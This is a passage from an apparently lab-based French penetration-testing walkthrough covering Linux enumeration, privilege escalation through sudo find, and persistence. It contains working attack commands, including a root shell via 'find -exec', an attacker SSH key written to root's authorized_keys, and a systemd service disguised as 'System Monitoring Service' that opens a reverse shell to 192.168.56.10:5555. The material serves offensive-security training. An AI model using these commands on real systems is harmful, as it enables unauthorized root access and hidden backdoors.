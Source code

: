 3. **Énumération du serveur Linux**

   Une fois connecté, effectuez une énumération du système :

   ```bash
   # Informations système
   uname -a
   cat /etc/issue
   
   # Utilisateurs et privilèges
   id
   sudo -l
   
   # Configuration réseau
   ifconfig -a
   ip route
   
   # Processus et services
   netstat -tuln
   ps aux
   ```

   Vous découvrez que le serveur possède deux interfaces réseau et fait office de passerelle vers un réseau interne (10.0.0.0/24).

4. **Élévation de privilèges via sudo**

   Exploitez les privilèges sudo pour obtenir un accès root :

   ```bash
   # Vérifier les droits sudo
   sudo -l
   
   # Résultat : l'utilisateur peut exécuter /usr/bin/find en tant que root
   
   # Exploiter find pour obtenir un shell root
   sudo find /etc -name passwd -exec /bin/bash \;
   
   # Vérifier les privilèges
   id
   # Résultat : uid=0(root) gid=0(root) groups=0(root)
   ```

5. **Mise en place d'une persistance Linux**

   Établissez plusieurs mécanismes de persistance sur le serveur pivot :

   ```bash
   # Ajout d'une clé SSH pour l'utilisateur root
   mkdir -p /root/.ssh
   echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC..." > /root/.ssh/authorized_keys
   chmod 600 /root/.ssh/authorized_keys
   
   # Création d'un service systemd caché
   cat > /etc/systemd/system/system-monitor.service << EOF
   [Unit]
   Description=System Monitoring Service
   After=network.target
   
   [Service]
   Type=simple
   ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/192.168.56.10/5555 0>&1'
   Restart=always
   RestartSec=60
   
   [Install]
   WantedBy=multi-user.target
   EOF
   
   ```